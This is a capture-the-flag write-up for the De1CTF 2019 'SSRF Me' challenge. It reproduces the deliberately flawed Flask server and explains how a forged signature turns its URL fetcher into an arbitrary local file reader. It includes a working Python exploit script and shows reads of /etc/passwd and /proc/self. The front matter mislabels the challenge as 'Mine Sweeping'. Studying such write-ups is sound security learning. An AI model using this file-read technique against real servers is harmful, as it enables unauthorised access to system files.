 ```yaml
---
layout: post
title:  "De1CTF 2019 SSRF Me Writeup"
date:   2019-08-06 18:00:00 +0300
categories: CTF_writeup De1CTF_2019
summary: This is my writeup for the Mine Sweeping challenge. This challenge was part of De1CTF 2019. We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.
---
```

This is my writeup for the `SSRF Me` challenge. This challenge was part of [De1CTF 2019](https://ctftime.org/event/843).

We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.


<details>
  <summary>Python code - server(click to expand)</summary>
<p>
{% highlight python %}
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

    
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
{% endhighlight %}
</p>
</details>

We can notice some things by analysing the code:
* the '/' endpoint returns the code, as we observed before
* the `/geneSign` endpoint will call the getSign function
    * The getSign function takes 2 arguments: param and action (both of them are strings)
    * That function will also access the 'secert_key' variable which is randomly generated
    * The function returns an MD5 hash of the string obtained by merging secert_key, param and action
    * the `/geneSign` endpoint will set the action to 'scan' and let the user supply the value for 'param'
* the `/De1ta` endpoint will create a Task object and return the result of its `.Exec()` method
    * This endpoint allows the user to supply values for 3 variables
        * action - by setting the 'action' cookie
        * sign - by setting the 'sign' cookie
        * param - by using an URL parameter named 'param'
        * It looks like the IP address of the user is also used (we can ignore this as it is used only for sandboxing purposes)
    * Next, we should look at details about the Task class. It has a simple constructor that uses the values mentioned above and the Exec method. The Exec method is where the important stuff happens
        * One of the first things that we notice in the Exec method is the `self.checkSign()` check. To avoid getting an error (code 500), the request should have a 'sign' cookie with the expected value
        * The expected value is a MD5 hash computed by calling the getSign method that was mentioned above. This means that we should be able to get a hash by using the `/geneSign` endpoint
        * The `/geneSign` endpoint has the value for 'action' set to 'scan'. We should imitate that and set the action to 'scan' in our request too. As a result, if we chose a valid URL for 'param', generate a hash using the `/geneSign` endpoint and then use that hash with the 'scan' action and the same parameter at the `/De1ta` endpoint we can get a 200 (OK) response from the server
        * Now it is time to take a look at what the 'scan' action means for this program. After that check passes, we have two available actions:
            * scan - takes the URL from 'param', open it and then put the first 50 characters from it into a file
            * read - returns the content obtained by the last 'scan' action
            * Another thing that should be mentioned here is that the check is performed using `in`. This means that the user-supplied string could contain both of these actions (e.g. "scanread" would be a valid input and it would trigger both actions)
            * The actions are always performed in the same order without taking into account the order of their keywords in the user-supplied string. So both "scanread" and "readscan" will produce the same result (a 'scan' action followed by a 'read' action)
* So in order to read the content of an arbitrary URL we should be able to use a 'read' action. However, we cannot obtain a valid hash from `/geneSign` because that will always have the action set to 'scan'
    * But as I mentioned above, the order of the words 'scan' and 'read' in the string does not matter. This means that we could make the request to `/geneSign` using 'read' followed the the URL as the value for 'param'. After the strings are merged this will be the same as if the action was "scanread" and the value of 'param' was the original URL  that we wanted to access
* Doing the actions mentioned above allowed me to access /etc/passwd as a PoC for this "exploit". Howevere, as we expected, only the first 50 characters of the file were returned.

![Reading from /etc/passwd](../assets/img/De1CTF_2019/ssrf_1.png){: .center-image}

* To make things easier from here, I created a Python script that does all the required steps to read a file from the server

<details>
  <summary>get_file.py (click to expand)</summary>
<p>
    {% highlight python %}
    import requests
    import sys
    import json

    server = 'http://139.180.128.86/'


    def get_signature(param):
        req_url = server + 'geneSign' + '?param=' + param

        res = requests.get(req_url)
        return res.text


    def get_file(path):
        s = get_signature(path + 'read')
        action = 'readscan'

        cookies = {}
        cookies['action'] = action
        cookies['sign'] = s

        request_url = server + 'De1ta?param=' + path
        r = requests.get(request_url, cookies = cookies)
        
        res = json.loads(r.text)
        if res['code'] is 200:
            print('Request was successful')
            return res['data']
        else:
            print('Request failed')
            return None


    if __name__=='__main__':
        if len(sys.argv) is not 2:
            print('Wrong number of arguments')
            exit(1)
        else:
            path = sys.argv[1]

        print('Obtaining file %s' % path)
        tmp = get_file(path)
        print(tmp)
    {% endhighlight %}
</p>
</details>

* Next, I tried to obtain the `./flag` file without success so I assumed that need a full path for that
    * For this, I tried to access `/proc/self/cmdline` to get some information about the current process (the working directory in particular) but the 50 character limit prevented me from obtaining relevant information
    * I also tried reading other files from the system or from /proc/self but I couldn't get any useful information. An example of useless information that I got was that PID of the process and the fact that the server uses the [uWSGI framework](https://uwsgi-docs.readthedocs.io/en/latest/)

![PID and uwsgi](../assets/img/De1CTF_2019/ssrf_2.png){: .center-image}

* After a while I decided to take a step back and try going for `./flag` again but this time I tried to read `flag` (without the './')
    * To my surprise, that worked and I obtained the flag for this challenge

![flag obtained](../assets/img/De1CTF_2019/ssrf_3.png){: .center-image}
